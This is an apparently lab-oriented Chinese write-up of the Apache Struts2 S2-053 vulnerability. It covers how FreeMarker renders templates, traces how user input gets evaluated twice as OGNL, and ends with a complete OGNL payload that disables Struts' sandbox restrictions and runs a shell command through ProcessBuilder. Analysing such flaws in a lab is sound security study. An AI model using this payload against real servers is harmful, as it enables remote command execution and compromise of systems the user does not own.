

### S2-053

  

Struts2 在使用 Freemarker 模板引擎的时候，同时允许解析 OGNL 表达式。导致用户输入的数据本身不会被 OGNL 解析，但由于被 Freemarker 解析一次后变成离开一个表达式，被 OGNL 解析第二次，导致任意命令执行漏洞。  
http://localhost:9053/hello.action

* Freemarker 工作原理  
  
    

  原理简述
  - 准备模板文件(后缀为.fld)
  - 将数据填充进模板
  - 输出最终页面文件
  
  具体过程
  - 创建一个 Configuration 对象
  - 设置模板文件所在路径
  - 设置模板文件所使用的字符集
  - 根据路径加载模板文件，创建模板对象
  - 创建数据集对象，并向对象填充数据
  - 创建输出流对象 Writer（此步骤是设置输出的文件所在的路径及其名字）
  - 调用模板对象的process方法输出（生成）HTML文件或其他文件
  - 关闭流对象


* 漏洞分析  
  
  参考 [s2-053 源码分析](https://zhuanlan.zhihu.com/p/146166297)  

  (👇) 该方法首先获取模版的绝对路径，再通过 configuration.getTemplate 获取模版的信息，然后调用 template.process(model, writer) 开始解析模版  

    

  (👇) 经过一系列的函数调用后（有些复杂），在一个 visit 方法中，调用传进去的 `element.accept` 方法遍历 nestedElements 中元素进行解析，nestedElements 的内容如下:  
  
    

    

    

  (☝) 其中的 `${redirectUri}` 应该就是传入的参数，这里应该就是注入漏洞点  
  
  (👇) 看如何解析 `<@s.url value="${redirectUri}"></@s.url>`。调用 `UnifiedCall.accept` 方法  
  
  (👇) 该方法首先从 valueStack 获取到 redirect_url 的值,放入 args,然后开始解析这个值。  

    

  (👇) 再经过一系列的复杂的调用，调用到了 `findValue` 方法。红框上面的判断语句首先判断是否支持 `altSyntax`。Syntax 功能是 Struts 2 框架用于处理标签内容的一种新语法（不同于普通的 HTML ），主要作用在于支持对标签中的 OGNL 表达式进行解析并执行。接着调用 TextParseUtil.translateVariables 方法。expr 就是我们的 payload。（这里是%{1+1}）  

    

    

  

  (☝) 再经过一系列的调用，会一直执行到 `parser.evaluate()` 方法。`parser.evaluate()` 的主要作用就是，对 payload 进行切割,保留 `%{}` 里面的值,然后再调用其他方法进行最终解析。  

  (👇) 最终，调用到了 `getValue()` 方法，执行了 ognl 表达式  
  
    

  


* payload

  ```
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

  ```